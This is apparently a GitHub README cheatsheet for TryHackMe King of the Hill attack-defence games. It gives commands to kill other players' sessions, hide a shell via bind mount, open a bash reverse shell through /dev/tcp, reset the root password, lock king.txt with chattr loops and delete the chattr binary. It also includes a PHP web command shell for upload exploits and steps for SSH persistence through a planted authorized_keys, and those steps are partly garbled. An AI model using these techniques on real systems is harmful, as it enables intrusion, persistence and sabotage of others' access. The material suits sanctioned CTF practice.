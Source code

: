 # Koth 👨🏻‍💻Hacker Vs Hacker👨🏻‍💻 Techniques
TryHackMe KOTH Cheatsheet  
-----------------------------   
<div align="center">

![3](https://media.giphy.com/media/oVvhEYvWDvE1G/giphy.gif)
</div>

***Description:***
In the King of the Hill (KoTH) Attack-Defence challenge, your goal is to compromise the target machine and gain access to the coveted /root/king.txt file on Linux machines or C:\king.txt (or C:\Users\Administrator\king-server\king.txt) on Windows machines. Once you've successfully breached the system, your task is to maintain access and defend the king file from other players.

-----------------------------  
<div align="center">

![3](https://media.giphy.com/media/xsCevAab5ufj37BeGR/giphy.gif)
</div>

## --> [ Hacker Vs Hacker ] <--
 
- ***you can check who is on the machine, by using the following command.*** 
```
ps aux | grep pts
```
- ***If you're looking for your pts id/number:*** 
```
tty
```
- ***killing session of other players:***
```
pkill -9 -t pts/$0   # Here $0 = pts/id number
```


- ***If your opponent killing your session, again and again. you can use this command to hide your shell (pts id) on the machine***

- ***To get the PID of your PTS.***

```
ps aux 
```
- ***Hide your PTS***
```
mount -o bind /tmp /proc/your-PID-here
```
***if you use this command then your opponent will not be able to kill your session Anymore ;)*** 

## --> [ Useful Websites to get Reverse shell & Privilege escalation ] <--


- ***Use this website to generate Reverse shell command (bash,python,PHP,socat)***
```
https://www.revshells.com/ 
```
- ***Easy to Remember Reverse shell 🐚  oneliner***
```
bash -c "bash -i >& /dev/tcp/0.0.0.0/4444 0>&1"
```

- ***Use this github repo to get code of php-reverse-shell.php*** 
```
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php 
```
- ***GTFoBins is a curated list of Unix binaries that can be used to escalate Privilege:***
``` 
https://gtfobins.github.io/ 
```
## --> [ Finding Binaries and flags ] <--  
<div align="center">

![3](https://media.giphy.com/media/xT8qAXT3f4sZTvjqZq/giphy.gif)
</div>

- ***If you're looking for Binaries that has root permissions:***
```
1) find / -perm -u=s -type f 2>/dev/null
```
```
2) find / -type f \( -perm -4000 -o -perm -2000 \) -print 
```
```
3) find / -perm /4000 2>/dev/null
```
- ***If you're looking for Binaries that has Sudo permissions:***
```
sudo -l 
```
- ***If you're looking for Flags:***
```
1) find / -name "user.txt" 2>/dev/null
```
```
2) find / -name root.txt 2>/dev/null 
```
```
3) find / -name .flag 2>/dev/null
```

## --> [ Changing User Password ] <--

- ***Change the password for the root user and other existing users using one-liners:***

```
1) echo -e "YOURpassword\nYOURpassword" | passwd root
```
```
2) echo -e "YOURpassword\nYOURpassword" | passwd user 
```

## --> [ Protect Your Name in King.txt ] <--  

- ***protect king.txt using chattr.***

***[Activate]***
```
chattr +i king.txt 

```
***[Deactivate]***
```
chattr -i king.txt 

```

- ***Use chattr loops to protect  lock your name in king.txt***

```
while [ 1 ]; do chattr -ia /root/king.txt 2>/dev/null; echo -n "YourNick" >| /root/king.txt 2>/dev/null; chattr +ia /root/king.txt 2>/dev/null; done &  

```
- ***Use Chattr for lock /root folder:***
```
cd / && chattr +i root
```
## --> [ Remove && Install Chattr binarie in target machine ] <--

***It is forbidden to change the permission of binaries in Koth Match, for example give a chmod 700 /usr/bin/find, except chattr, the chattr binary is allowed to remove from the machine.( remove from the machine after you use: [Activate] chattr +i king.txt ).*** 
 
- ***Remove chattr so no one will be able to change the attributes of king.txt***
- 
***[Deactivate]*** 
```
rm /usr/bin/chattr
```
- ***but if you have access to a koth box and you don't have chattr you can get a chattr binary from github and compile it on the machine:***
```
wget https://raw.githubusercontent.com/posborne/linux-programming-interface-exercises/master/15-file-attributes/chattr.c 
```
```
gcc chattr.c -o chattr 
```
```
./chattr +i king.txt 
```

## --> [ Unmount other player name from king.txt] <--

***if you try to put your nick  in /root/king.txt and the message "Read-only file system" appears, that means the other player is used Mount technique.*** 

- ***Unmount king.txt using umount:***
```
umount -l /root
umount -l /root/king.txt 
```
## PHP Web CMD Shell

**Get Shell by exploiting file upload Vulnerability**

![Web-CMD-shell-search](https://github.com/DevVj-1/Koth-Hacker-Vs-Hacker_Techniques-/assets/106962581/eb2697f2-7a85-4744-90ae-a7337e52b134)


```
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

## ---> Shell Persistence using SSH <---

<div align="center">

![3](https://media.giphy.com/media/xT8qB2HYA1vVSxooSY/giphy.gif)
</div>

**Shell Persistence using SSH - Attacker Terminal & Target Terminal**

Step 1: Navigate to the SSH directory on your Target Terminal - 

```
cd /root/.ssh
```
Step 1.2 :- Return to your attacker Terminal and execute: 
```
cd /root/.ssh
```
Step 2: Return to your attacker terminal and execute:
```
ssh-keygen -t rsa
```

[Attacker Terminal] Step 3: Display the content of id_rsa.pub using cat id_rsa.pub and copy its content using:
```
cat id_rsa.pub """ <Content> """ > authorized_keys
```
**Example:**
![Screenshot_2024-01-04_19-28-42](https://github.com/DevVj-1/Koth-Hacker-Vs-Hacker_Techniques-/assets/106962581/d90c075a-92a0-4f49-85d5-91d1d8231c89)

[Attacker Terminal] Step 4: Set the permissions for id_rsa - 
```
chmod 600 id_rsa
```

**Attacker Terminal Step 4.1: Send authorized_keys to the target system.:)**

[Target Terminal] Step 5: Set permissions for authorized_keys -
```
chmod 700 authorized_keys
```

[Attacker Terminal] Step 6: Connect to the target system using the generated key - 

```
ssh -i id_rsa root@127.0.0.1
```
